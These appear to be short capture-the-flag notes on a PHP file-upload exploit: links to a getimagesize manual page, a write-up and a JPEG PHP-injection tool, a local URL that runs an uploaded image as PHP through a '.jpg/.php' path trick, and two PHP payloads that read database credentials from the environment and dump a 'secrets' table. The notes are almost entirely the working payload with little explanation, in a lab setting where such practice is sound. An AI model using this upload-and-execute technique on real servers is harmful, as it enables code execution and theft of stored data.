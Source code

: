 https://www.php.net/manual/en/function.getimagesize.php

https://trevorsaudi.medium.com/indead-hackpack-ctf-1b3878120da5



https://github.com/dlegs/php-jpeg-injector?tab=readme-ov-file

http://localhost:8000/user-data/c38c9f51-c973-4607-8d5e-f8cf50b17297.jpg/.php

```
<?php
$DB_HOST = getenv("DB_HOST");
$DB_NAME = getenv("DB_NAME");
$DB_USER = getenv("DB_USER");
$DB_PASS = getenv("DB_PASS");
$db = new PDO("mysql:host=$DB_HOST;dbname=$DB_NAME", $DB_USER, $DB_PASS, [ PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_OBJ, ]);
$sql = "select flag from secrets"; foreach ($db->query($sql) as $row) { print $row['flag']; }


<?php

$DB_HOST = getenv("DB_HOST");
$DB_NAME = getenv("DB_NAME");
$DB_USER = getenv("DB_USER");
$DB_PASS = getenv("DB_PASS");
echo 123;
 $db = new PDO("mysql:host=$DB_HOST;dbname=$DB_NAME", $DB_USER, $DB_PASS, [ PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_OBJ, ]);
$sql = "select flag from secrets"; foreach ($db->query($sql) as $row) {var_dump($row);
}

```
